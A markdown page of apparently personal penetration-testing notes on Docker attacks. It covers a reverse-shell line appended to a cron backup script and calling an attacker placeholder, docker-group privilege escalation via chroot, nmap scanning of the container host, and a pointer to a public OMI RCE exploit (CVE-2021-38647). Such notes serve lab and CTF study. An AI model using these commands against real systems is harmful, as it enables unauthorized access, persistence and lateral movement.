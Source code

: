 ```yaml
---
title: Docker hacking 🐳
---
```


- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```

## Being part of the docker group

- If we find out that our victim user belongs to the docker group, we can do the following (based on [GTFObins](https://gtfobins.github.io/gtfobins/docker/)):

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](Pasted%20image%2020240417222812.png)

![](Pasted%20image%2020240417222753.png)

## Escaping a container

- Once we are root by exploiting a capability vulnerability as example, we have to pivot to the host of the container as follows:

- Run `ifconfig` to see if we are connected to the eth0
- Run `arp -a` to discover other hosts on the network

```shell
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:d2:ff:62:fe [ether] on eth0
```

- So now we know that `172.17.0.1` is our host
- Now we want to perform an nmap scan to it, so we will upload a [nmap binary](https://nmap.org/download.html#linux-rpm)
	- Download the source code one
	- Install with the following:

```shell
bzip2 -cd nmap-7.94.tar.bz2 | tar xvf -
cd nmap-7.94
./configure
make
su root
make install
```

- If you haver dependency errors try [this nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
	- With this one just upload it to the container and the add it execution permissions

- Now run:

```shell
./nmap -Pn -T4 -p- 172.17.0.1 --min-rate 5000 -vv

Host is up, received arp-response (-0.0014s latency).
Scanned at 2024-04-21 17:17:26 UTC for 39s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:D2:FF:62:FE (Unknown)

Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 39.69 seconds
           Raw packets sent: 196632 (8.652MB) | Rcvd: 38 (1.620KB)
```

- The port 5986 is for Microsoft's [Open Management Infraestructure (OMI)](https://github.com/microsoft/omi) service for remote configuration management of *nix VMs in Azure. Our host must be a simulation of an Azure Linux VM.
- There is a [CVE for an unauthenticated RCE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647), and a [public exploit](https://github.com/AlteredSecurity/CVE-2021-38647) for OMI we can test.
	- You can check the exploitation in this notes in [CVE-2021-38647](./Exploits/CVE-2021-38647.md)
